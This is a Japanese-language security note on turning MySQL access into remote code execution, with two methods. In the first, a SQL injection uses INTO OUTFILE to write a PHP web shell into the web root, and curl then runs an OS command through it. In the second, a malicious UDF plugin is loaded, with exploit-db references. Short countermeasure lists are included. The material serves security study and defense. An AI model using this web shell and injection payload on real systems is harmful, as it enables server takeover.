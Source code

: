 ### 前提条件

- MySQLがPHPの公開ディレクトリにアクセスできる場合
- secure-file-privが無効化されている場合（MySQL 5.7.5以前はデフォルト無効）


### 手順

#### Step 1: PHPファイルを `INTO OUTFILE` で書き込む

`INTO OUTFILE`を使用して、WebShellとして動作するPHPコードをPHPファイルとして書き込む。

```php
<?php $param=$_GET["cmd"]; echo shell_exec($param);
```

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT NULL,NULL,'<?php $param=$_GET["cmd"]; echo shell_exec($param);' INTO OUTFILE '/var/www/html/poc.php
```


#### Step 2: PHP経由でOSコマンドを実行する

書き込みに成功していれば以下のURLで任意コマンド実行ができる。

```
❯ curl 'http://localhost:8888/poc.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### 対策

- MySQLとWebサーバは分離した構成にする
- secure-file-privオプションを有効化してファイル書き込みを禁止する


## UDF - Write a plugin file to RCE

### 前提条件

- 複文実行できる設定になっている場合
- プラグインディレクトリにMySQLのプロセスが書き込み可能な場合


### アイデア

- MySQLではC言語でプラグインを書いて、独自のSQL関数（UDF）を実装することができる
- C言語内では当然任意のコードが実行できるので、OSコマンドを実行するUDFを作り出すことも可能
  - 例. https://www.exploit-db.com/exploits/1518
- MySQLがプラグインディレクトリに書き込む権限を持っている場合、UDFを含むバイナリを書き込み、プラグインとしてロードさせることで任意コード実行ができる
- コンパイル済みのOSコマンド実行UDFも世の中に転がっている
  - 例. https://www.exploit-db.com/exploits/46249
- MySQLの場合、バイナリファイルはプラグイン用のディレクトリに配置される必要がある

